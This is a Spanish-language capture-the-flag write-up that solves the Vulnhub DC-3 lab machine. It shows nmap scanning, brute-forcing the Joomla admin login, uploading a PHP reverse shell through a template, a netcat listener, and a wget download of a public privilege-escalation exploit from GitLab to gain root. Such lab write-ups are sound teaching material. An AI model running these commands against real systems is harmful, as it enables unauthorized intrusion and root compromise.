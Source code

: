 ```yaml
---
title: Vulnhub DC-3
published: true
---
```

**Resolucion de la maquina DC-3 de Vulnhub**


[Link al ejercicio](https://www.vulnhub.com/entry/dc-32,312/).

Hoy vamos a resolver la Maquina DC-3 de Vulnhub

Al igual que en la [primera](VulnHub-DC-1) y [segunda](Vulnhub-DC-2), lo primero es ver que ip tiene la maquina. Una vez lo hayamos hecho, vamos a realizar un escaneo de puertos con nmap para ver que puertos tenemos abiertos en la maquina.

## Escaneo de puertos

```bash
nmap -sV -A 10.0.74.59
```

![](/assets/vulnhub/dc-3/1.png)

Podemos ver que tiene el puerto 80 abierto, con un servidor Joomla. Asi que vamos a intentar explotar sus vulnerabilidades.

```bash
sudo nmap -sV -A --script http-joomla-brute 10.0.74.59
```

![](/assets/vulnhub/dc-3/4.png)

Vamos a usar las credenciales del admin para entrar al web admin.

![](/assets/vulnhub/dc-3/5.png)

Ahora nos vamos a ir a templates y vamos a usar el que se llama protostar. Este template tiene una vulnerabilidad que nos permite ejecutar codigo remoto.

![](/assets/vulnhub/dc-3/6.png)

Vamos a crear un archivo php con el codigo del siguiente archivo.

![](/assets/vulnhub/dc-3/9.png)

Hay que cambiar la ip por la nuestra y subirlo al servidor.

![](/assets/vulnhub/dc-3/11.png)


Ahora vamos a usar netcat para poner el puerto en esucha.

```bash
nc -lvp 1234
```

![](/assets/vulnhub/dc-3/12.png)

Ahora vamos a ejecutar el archivo que hemos subido al servidor.Para ello, vamos a la siguiente url.

![](/assets/vulnhub/dc-3/13.png)

Una vez que hagamos esto, veremos que estamos dentro de la maquina. Vamos a usar el comando uname -a para ver que sistema operativo es.

![](/assets/vulnhub/dc-3/14.png)


En esta parte me he estado volviendome loco, proque el repositorio remoto donde esta el exploit que necesitamos para escalar privilegios, ya no esta disponible. Re sulta que el dueño, ha cambiado de Github a Gitlab. 

![](/assets/vulnhub/dc-3/15.png)

![](/assets/vulnhub/dc-3/16.png)

Pero finalmente he conseguido localizar el [archivo](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/blob/main/bin-sploits/39772.zip).

![](/assets/vulnhub/dc-3/17.png)


Antes de instalarlo, vamos a importar un interprete /bin/bash para que sea mas comodo trabajar con la shell.

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Ahora ya podemos descargarlo y descomprimirlo.

```bash
wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/blob/main/bin-sploits/39772.zip
unzip 39772.zip
```

![](/assets/vulnhub/dc-3/21.png)

![](/assets/vulnhub/dc-3/22.png)

Ahora accedemos a la carpeta y seguimos los pasos de las capturas.

![](/assets/vulnhub/dc-3/23.png)

![](/assets/vulnhub/dc-3/24.png)

![](/assets/vulnhub/dc-3/25.png)

Esto basicamente es un exploit que nos otorga priviligios de root. Asi que ahora ya podemos ver el contenido del archivo flag.txt.

![](/assets/vulnhub/dc-3/26.png)

![](/assets/vulnhub/dc-3/27.png)

